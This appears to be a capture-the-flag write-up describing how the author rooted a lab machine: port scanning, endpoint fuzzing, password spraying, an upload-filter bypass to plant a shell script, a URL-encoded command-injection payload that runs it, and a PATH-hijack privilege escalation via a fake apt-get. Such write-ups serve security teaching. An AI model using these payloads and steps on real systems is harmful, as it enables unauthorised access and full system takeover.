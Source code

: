 <div style="display:block;text-align:middle"><img align="middle" src="https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3e30ac37-cb08-4ac9-89d9-73271b6ae425%2Fposter.jpg?id=c0d21156-5af6-4626-8d7d-770a731f728f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1250&userId=&cache=v2" border="0" style="width:450px;">

  
It was a boot2root CTF competition Conducted By IIT Bhubaneswar .
#### Machine IP :
```http
'191.101.3.104'
```
### Nmap Scan
```sh
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 50
53/tcp   open   domain  syn-ack ttl 56
80/tcp   open   http    syn-ack ttl 59
443/tcp  open   https   syn-ack ttl 49
1075/tcp closed rdrmshc reset ttl 43
```
so i first tried visiting the port 80

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fec9f0d5e-cd44-4edc-b53a-b82fa7816b20%2F80.png?id=966259b2-8eca-45f1-a7d3-cc941d0529d2&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
 
it was a basic apache2 homepage , so i skipped
head on to port 443 , there i found this interesting page :

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F173dd7cd-91f6-4aa8-b484-12a1efd16aca%2F443.png?id=afd219ea-4d74-4281-a82d-8b96b830b22f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
this looked interesting to me so i fuzzed it & got some endpoints :

```sh
302      GET        1l        4w       23c http://191.101.3.104:443/logout => /
200      GET       29l      120w     1707c http://191.101.3.104:443/
200      GET       51l      122w     1870c http://191.101.3.104:443/maintenance
200      GET       51l      122w     1870c http://191.101.3.104:443/Maintenance
302      GET        1l        4w       23c http://191.101.3.104:443/Logout => /
200      GET       81l      143w     2641c http://191.101.3.104:443/complaints
```
  
`maintenance` & `complaints` endpoints looks very interesting so i visited both & it looked like this :

Maintenance page :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F53b66e65-c7aa-4e06-9bb8-d28f662171d3%2Fmain-login.png?id=bb7a287d-a1ac-4360-b5ee-ce62d23f9731&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1150&userId=&cache=v2)
  
maintenance page had a login portal i tried password spraying attack on it & it got cracked in seconds
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa5831c61-84af-4e34-b4c7-59ceefe2a508%2Fpassword-spraying.png?id=8186e9f8-54d0-4224-b38c-ef5fea73d8c6&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
so `admin:password1` were the creds for the login page . i successfully logged in to the maintenance page

after loggin in :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6362dc41-51e8-4491-bad3-152548143d4b%2Fmaintenance.png?id=1b2d9c4e-70e5-490a-b882-051b3e2ff9b1&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
 maintenance page had 2 buttons called `Free-up storage` & `Cleanup-cache`
  
 the request for these 2 buttons were :
  
 ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d195405-b6a2-4d24-b42e-a3ccbda91ab4%2Fmaitenance-request.png?id=f1e1d9c7-4abb-45b3-a381-9382d027d3c0&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1630&userId=&cache=v2)
  
 so it gave some idea that i can run some code execution from here
  
  Complaint Page :
  
  ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7e2dcb5c-5db2-4ff5-9a79-b09e461cedc4%2Fcomplaints.png?id=9a20ceca-d375-445a-9977-2dde2113bc77&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
when i checked the other endpoint called complaints it had file upload vulnerability
i tried uploading reverse-shell.php but i noticed its using `nodejs` so php rev shell wont work , i took my teammate Raj's help to figure out the shell   part 
so i tried with bash shell , one more thing was there that user can only upload images so i had to do extension bypass using burp :
 
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa914d3b8-0f21-415f-b121-db1e2b8a63dc%2Ffoothold.png?id=a1572433-0fab-4239-8b8a-a8c9214b1ff8&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
here i used bind shell because due to some reasons my rev shell wasnt working & used ports over 1024 as they are reserved ports & they need sudo perm in linux if u want to listen/emit on them , so basically i changed the extension from `foothold.sh.jpg` to `foothold.sh` here & it bypassed the filter & got uploaded as a sh script . the path it got uploaded to was ./images  

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9ccb93db-152d-44b5-93b3-dc212a69c8a0%2Fuploads-dir.png?id=e220c5a2-64ed-4d1b-b0b3-bffe03a98475&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1060&userId=&cache=v2)
  
so my shell got uploaded but now i need to trigger it so i went back to maintenance page where i had a param which was executing. i knew the path now so i used && with url encoded , typed bash to invoke my script `[foothold.sh](http://foothold.sh)` 

so the actual payload was :
```sh
script_to_run=Cleanup.out %26%26 bash ./images/foothold.sh %3c%3c
```

& we got shell yay :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa2b3516a-20e2-4738-92b4-fbfda34ca98f%2Ffooldhold2.png?id=cc0fdffd-dc73-4158-a82e-dcc6106b1c29&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)

## PrivEsc

we are logged in as guest user now we need to be root
so i did manual enumeration of privesc 
i found out `/home/node/webapp/scripts/cleanup.sh` is `suid` bin & later on playing with that folder i found out its leading to path injection , where `apt-get` binary is called by the cleanup.sh program which was ran by root . it gave me the idea of path Injection 

#### Path Injection to root
```sh
step 1 : echo '#!/bin/bash' > /tmp/apt-get
step 2 : echo '/bin/bash -p' >> /tmp/apt-get
step 3 : chmod +x /tmp/apt-get
step 4 : export PATH=/tmp:$PATH
step 5 : cd /home/node/webapp/scripts/
step 6 : ./Cleanup.out

Boom Rooted
```
& We got root :)

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1cb6a30-a0d2-4a77-8bbb-53bed1161483%2Froot-privesc.png?id=ffa44f9a-dcb1-4bfc-8ce6-e183fb68e5bc&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
#### P.S : Won this CTF :)
